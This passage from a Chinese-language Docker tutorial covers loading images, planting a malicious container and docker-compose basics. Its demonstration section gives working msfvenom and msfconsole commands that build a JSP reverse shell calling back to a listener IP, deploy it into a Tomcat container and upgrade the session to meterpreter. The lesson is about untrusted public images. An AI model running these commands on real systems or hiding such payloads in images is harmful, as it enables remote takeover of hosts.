 docker load :导入使用docker save命令导出的镜像，通过-i 指定导入的文件。

```
docker rm -f $(docker ps -a -q)
docker rmi xxx
docker images
docker load -i fsec_v1.tar
```

![image-20220605014254204](../../images/image-20220605014254204.png)



## 1.6 整合测试--制作自己的镜像

在docker的生态中，任何人都可以进行镜像的同步并供其他人下载使用。那么是否应该完全信任公开渠道中的镜像？

为此我们可以制作一个有问题的容器。

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.231 LPORT=4444 -f war >fsec.war
scp shell.war root@192.168.0.33:/opt
docker search tomcat
docker pull tomcat
docker run --name testa -P -d tomcat:latest
docker cp /opt/shell.war testa:/usr/local/tomcat/webapps
msfconsole
set payload java/jsp_shell_reverse_tcp
set lhost 192.168.0.231
exploit -j -z
use post/multi/manage/shell_to_meterpreter
set session x
exploit
```



## 1.7 docker-compose

Compose是用于定义和运行多容器Docker应用程序的工具。通过Compose，可以使用YAML文件来配置应用程序的服务。然后，使用一个命令，就可以从配置中创建并启动所有服务。

Docker-Compose是一个容器编排工具。通过一个.yml或.yaml文件，将所有的容器的部署方法、文件映射、容器端口映射等情况写在一个配置文件里，执行docker-compose up命令就像执行脚本一样，一个一个的安装并部署容器。
